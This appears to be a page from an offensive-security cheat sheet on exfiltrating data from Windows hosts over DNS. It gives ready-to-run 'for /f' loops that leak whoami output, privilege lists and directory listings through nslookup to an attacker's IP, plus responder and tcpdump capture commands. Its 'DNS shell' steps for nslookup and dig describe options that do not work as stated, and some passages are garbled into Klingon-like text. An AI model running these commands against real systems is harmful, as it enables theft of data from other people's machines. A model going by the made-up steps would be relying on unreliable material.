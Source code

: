 You can listen on [http://+:80/Temporary\_Listen\_Addresses/](http://+/Temporary\_Listen\_Addresses/) without being administrator.

### Listen address ACLs

You can listen on [http://+:80/Temporary\_Listen\_Addresses/](http://+/Temporary\_Listen\_Addresses/) without being administrator.
```bash
netsh http show urlacl
```
### Manual DNS shell

**Attacker** (Kali) must use one of these 2 options:

#### Option 1: Using `nslookup`

The `nslookup` command can be used to manually perform DNS queries and interact with the DNS server. To start a DNS shell, the attacker can follow these steps:

1. Open a terminal in Kali.
2. Run the `nslookup` command followed by the target domain or IP address.
3. Use the `set type=txt` command to set the query type to TXT records.
4. Use the `server <DNS_IP>` command to specify the DNS server to use.
5. Use the `ls -d <shell_command>` command to execute shell commands. Replace `<shell_command>` with the desired command.
6. The output of the shell command will be displayed in the terminal.

#### Option 2: Using `dig`

The `dig` command is another option to manually interact with the DNS server and perform DNS queries. To establish a DNS shell, the attacker can follow these steps:

1. Open a terminal in Kali.
2. Run the `dig` command followed by the target domain or IP address.
3. Use the `+short` option to display only the answer section of the DNS response.
4. Use the `+tcp` option to force the use of TCP instead of UDP.
5. Use the `+ignore` option to ignore the DNS server's response and send the query directly to the target IP address.
6. Use the `+cmd` option to execute shell commands. Append the desired command after the `+cmd` option.
7. The output of the shell command will be displayed in the terminal.
```bash
sudo responder -I <iface> #Active
sudo tcpdump -i <iface> -A proto udp and dst port 53 and dst ip <KALI_IP> #Passive
```
#### Qa'Hom

**`for /f tokens`** technique: Qa'HomDaq jatlhlaHbe'chugh, pe'vIl X loghDI' loghDI' wejDIch qar'a'logh DNS vItlhutlh.
```bash
for /f %a in ('whoami') do nslookup %a <IP_kali> #Get whoami
for /f "tokens=2" %a in ('echo word1 word2') do nslookup %a <IP_kali> #Get word2
for /f "tokens=1,2,3" %a in ('dir /B C:\') do nslookup %a.%b.%c <IP_kali> #List folder
for /f "tokens=1,2,3" %a in ('dir /B "C:\Program Files (x86)"') do nslookup %a.%b.%c <IP_kali> #List that folder
for /f "tokens=1,2,3" %a in ('dir /B "C:\Progra~2"') do nslookup %a.%b.%c <IP_kali> #Same as last one
#More complex commands
for /f "tokens=1,2,3,4,5,6,7,8,9" %a in ('whoami /priv ^| findstr /i "enable"') do nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i <IP_kali> #Same as last one
```
**ghItlh** **redirect** **output**, 'ej **read** **vItlhutlh**.
```
whoami /priv | finstr "Enab" > C:\Users\Public\Documents\out.txt
for /f "tokens=1,2,3,4,5,6,7,8,9" %a in ('type "C:\Users\Public\Documents\out.txt"') do nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i <IP_kali>
```